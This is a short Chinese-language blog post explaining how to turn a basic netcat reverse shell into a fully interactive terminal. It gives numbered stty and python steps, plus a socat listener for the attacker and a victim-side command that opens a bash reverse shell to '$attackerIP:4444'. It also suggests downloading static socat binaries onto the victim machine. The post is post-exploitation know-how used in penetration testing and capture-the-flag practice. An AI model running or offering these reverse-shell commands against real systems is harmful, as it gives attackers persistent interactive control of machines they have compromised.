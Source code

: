```yaml
---
title: 如何利用socat和nc得到Full Functional Shell
layout: post
---
```

> Anger is my meat. I sup on myself. And so shall starve with feeding. William Shakespeare  

<br>
什么是 **_Full Functional Shell_**，简单理解就是有命令补全，VI编辑器正常使用，输错的命令可以按CTRL+Z重置，一句话就是和自己电脑的terminal的效果差不多。  
<br>
用netcat当接收到victim的reverse shell时，没有上述的功能，如果要编辑文件只能用```echo cat <<EOF wget curl 等等``` 这样的间接的方法去编辑，并且不小心按下CTRL+Z时直接会终端本次连接。  

<br>
两种方法可以避免。  

* **用nc**  
1. python -c得到tty
2. ctrl +Z
3. echo $TERM(记住这个变量)
4. stty -a (记住rows和columns)
5. stty raw -echo
6. 输入fg (如果是mac和zsh就一起输入 stty raw -echo; fg)
7. 输入reset
8. export SHELL=bash 
9. export TERM=xterm256-color (第三步)
10. stty rows ** columns * (第四步的值)

* **利用socat** ```(如果victim没有socat可以直接下载对应编译好的程序)``` [Github](https://github.com/andrew-d/static-binaries)
1. attacker: socat file:`tty`,raw,echo=0 tcp-listen:4444
2. victim: socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$attackerIP:4444  

